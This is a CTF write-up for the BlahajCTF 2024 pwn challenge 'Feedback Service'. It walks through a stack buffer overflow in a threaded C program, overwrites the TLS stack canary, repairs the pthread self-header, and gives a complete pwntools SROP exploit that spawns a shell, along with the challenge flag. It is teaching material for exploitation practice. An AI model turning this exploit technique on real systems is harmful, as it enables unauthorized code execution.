 ```yaml
---
title: Feedback Service
date: 2024-11-27
tags: 
- pwn
- author-fs
categories: BlahajCTF 2024
---
```


by {% person fs %}

> You ever heard of the book "To kill a mockingbird"? What about to kill a canary?


This challenge was meant to be a TLS canary overwite challenge and pop shell. 

Looking at the source code of this challenge, we see an obvious buffer overflow since the program doesnt restrict the size of input that we want to give in.

```c
void feedback(){
    int size;
    char buf[100];
    printf("Enter size of message: ");
    scanf("%d",&size); //doesn't check if the size we enter exceeds 100
    while (getchar()!='\n');
    printf("Enter your messaage: ");
    fgets(buf,size,stdin); //buufer overflow
    puts("Your feedback will be noted.\n");
    return;
}
```

However, this program has canary and you can't just overwrite the saved canary as the program checks if the canary has been modified and if it is, it'll say stack smashing detected and crash. But for a very intentional and weird reason, this program also uses threading.

```c
int main(){
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);	
    printf("Welcome to our feedback service 2.0! Please leave a message with a length of your choice and we will get back to you asap\n");
    printf("This might be useful %p\n",(void *)printf);
    setAlarm();
    pthread_t thread;
    if (pthread_create(&thread,NULL,thread_func,NULL)!=0){
        exit(1);
    }
    pthread_join(thread,NULL);
    return 0;
}
```

We see the program implements threading and also gives us free libc printf leak.

The saved canary is stored in TLS (thread-local storage: you can read about it here https://gcc.gnu.org/onlinedocs/gcc/Thread-Local.html)

Hence, this, combined with the fact I can give whatever size of input (like 3000), I can easily buffer overflow all the way to TLS and overwrite the canary there such that the canary that the thread refers to would be modified in TLS  (fs:0x28) and we could craft our own canary to easily pop shell. Now, we can find the offset to TLS easily using gdb which I think was around 2176 and overwrite the canary at offset 2216 since the canary is stored in fs:0x28. We can construct the payload as the following "A" * OFFSET TO RIP (around like 120) and this also means we are overwritng the canary and saved rbp value. We can then place our pop shell payload (which can either be a pop_rdi in libc + /bin/sh or an SROP payload since pop_rax and syscall gadgets are given). We can then continue ovewriting all the way to TLS and overwrite the saved canary in TLS at offset 2216 with "A"*8 (and this would match the canary near rbp) hence the program would not throw the stack smashing detected error.

However, if you were to simply do this, you're gonna get an error which is _pthread_enable_asynccancel() like the following 

![](../../static/BlahajCTF2024/error.png)

The reason to this is because the pthread_struct within glibc has a self header at fs:0x10 and basically the addres in the self-header gets de-referenced and is stored in rax register and the problem with this is that this address needs to be writeable or else glibc will complain and throw that error i mentioned. You can learn more about this with this link (https://www.theflash2k.me/blog/writeups/aofctf/pwn/birdy101) or the stuff I posted in #pwn of blahajctf discord  So, given that we can calculate the libc base address since we're given a printf leak, we can just calculate a writeable address within libc (can just search in libc using vmmap) and use it to overwrite the address at fs:0x10 (which is at offset 2192). 

With all of these information, we can structure the following payload (im using srop but can also use onegadget/classic ret2libc technique).

```py
from pwn import *

p=process("../dist/./program")
#p=remote("188.166.198.74","30009")
elf=ELF("../dist/./program")
gdb.attach(p)
context(os='linux',arch='amd64')
context.log_level='DEBUG'

libc=ELF("../dist/libc.so.6")

syscall=0x000000000040130f
pop_rax=0x000000000040130d

addr=p.recvuntil(b"useful ")
addr=p.recv(14)
addr=int(addr,16)-libc.sym.printf #calculating libc base address coz ASLR
print(hex(addr))

frame=SigreturnFrame() #defining out sigframe to do system("/bin/sh") call
frame.rax=0x3b
frame.rdi=addr+0x197e34
frame.rsi=0
frame.rsp=0x4040000
frame.rdx=0
frame.rip=syscall

p.sendlineafter(b"size of message:",b"2400")
payload_1=b"A"*120+p64(0x0000000000401016)+p64(pop_rax)+p64(0xf)+p64(syscall)+bytes(frame) #srop payload
payload_1+=b"A"*(2192-len(payload_1)) #we overwriting all the way to tls
payload_1+=p64(addr+0x01d66c8) #writeable libc addr at pthread struct self header
payload_1+=(2216-len(payload_1))*b"A" #then just overwrite the rest of tls including fs:0x28
payload_1+=b"A"*8

p.sendlineafter(b"Enter your messaage:",payload_1) 

p.interactive() #enjoy shell
```

Running this, we get the flag ```blahaj{canary_master_101}```. 

Many people got stuck at the self header in pthread_struct coz they didnt know they had to overwrite it with a writeable address so hope this chall taught yall a bit more about canary and pthread exploitation
